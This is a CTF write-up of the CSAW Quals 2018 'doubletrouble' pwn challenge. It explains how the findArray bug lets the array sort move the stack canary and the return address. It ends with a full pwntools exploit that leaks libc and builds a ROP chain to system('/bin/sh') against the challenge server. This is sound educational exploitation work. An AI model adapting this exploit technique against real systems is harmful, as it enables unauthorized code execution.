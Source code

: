 ```yaml
---
title: CSAW Quals 18 - doubletrouble
date: '2018-09-17'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- csawquals18
tags:
- pwn
authors:
- malweisse
---
```


The core function is the following:

```c
int game()
{
  int v0;
  long double sum;
  long double max;
  long double min;
  int v4;
  int how_long;
  int idx;
  char *s;
  double array[64];
  unsigned int v10;

  canary = __readgsdword(0x14u);
  printf("%p\n", array);  // Stack address leak
  printf("How long: ");
  __isoc99_scanf("%d", &how_long);
  getchar();
  if ( how_long > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  idx = 0;
  while ( idx < how_long )
  {
    s = malloc(100u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = idx++;
    array[v0] = atof(s);
  }
  printArray(&how_long, array);
  sum = sumArray(&how_long, array);
  printf("Sum: %f\n", sum);
  max = maxArray(&how_long, array);
  printf("Max: %f\n", max);
  min = minArray(&how_long, array);
  printf("Min: %f\n", min);
  v4 = findArray(&how_long, array, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", array[v4]);
  sortArray(&how_long, array);
  puts("Sorted Array:");
  return printArray(&how_long, array);
}
```

The programs store the readed doubles in an array on the stack.
The array is 532 bytes from the return address, so 64 entries are not enough for a buffer overflow.

The findArray function is interesting, a correct manipulation of the input can change the how_long variable.

```c
int findArray(int *len, double *arr, double a, double b)
{
  int saved_len;

  saved_len = *len;
  while ( *len < 2 * saved_len )
  {
    if ( arr[*len - saved_len] > a && b > arr[*len - saved_len] )
      return *len - saved_len; // Here *len is not restored to saved_len
    *len += &GLOBAL_OFFSET_TABLE_ - 134529023; //*len += 1
  }
  *len = saved_len; // We want to avoid this piece of code
  return 0;
}
```

Giving a number greater than -10 `*len` is increased and with a number greater than -100 and lower than -10 we can avoid the restring of `*len` with `saved_len`.

We choose -1.1 and -20.1.

With `how_long` greater than 64 the sortArray procedure will sort our input and the values that are on the stack after the array, like the canary and the return address.

The binary addresses casted to double are sorted after -1.1.

To exploit the vulnerability we need to place the canary in the same position before and after the sorting so it must start with 0x00b.
Due to this requirement the exploit must be runned many times to work.

Here the exploit:

```python
#!/usr/bin/env python

from pwn import *

LIBC_NAME = "./libc6_2.27-3ubuntu1_i386.so" # found on libc database using system (0x200)

def pdouble(f):
    return struct.pack('<d', f)

def double_to_hex(f):
    return hex(struct.unpack('<Q', struct.pack('<d', f))[0])

def int_to_double(i):
    return struct.unpack('<d', p64(i))[0]

def hex_to_double(h):
    return struct.unpack('<d', h.decode("hex")[::-1])[0]

libc = ELF(LIBC_NAME)

while True:
    #p = process("./doubletrouble", env={"LD_PRELOAD": LIBC_NAME})
    p = remote("pwn.chal.csaw.io", 9002)

    try:

        ### STAGE 1 - leak libc a restart main

        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n") #main = 0x8049506
        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n")

        for i in xrange(3):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        off = 0xf7f8bfff - 0xF7DB4000

        libc.address = u32(pdouble(float(p.recvline(False)))[4:]) - off
        if libc.address & 1 == 1:
            libc.address -= 1

        print "LIBC: ", hex(libc.address), hex(libc.symbols["system"])[2:]

        p.recvuntil("68:") + p.recvline(False)


        ### STAGE 2 - execute system("/bin/sh")

        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        v = hex_to_double(("0804900a0804900a")) #0x0804900a : ret
        p.sendafter("Give me: ", repr(v) + "\n")

        v = hex_to_double("0804A0D5" + hex(libc.symbols["system"])[2:])
        p.sendafter("Give me: ", repr(v) + "\n")

        bin_sh = libc.address + 0x17e0cf
        v = hex_to_double(("09049786" + hex(bin_sh)[2:]))
        p.sendafter("Give me: ", repr(v) + "\n")

        for i in xrange(2):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        p.interactive()
        p.close()
    except KeyboardInterrupt:
        p.close()
        exit()
    except Exception:
        p.close()
        continue
```

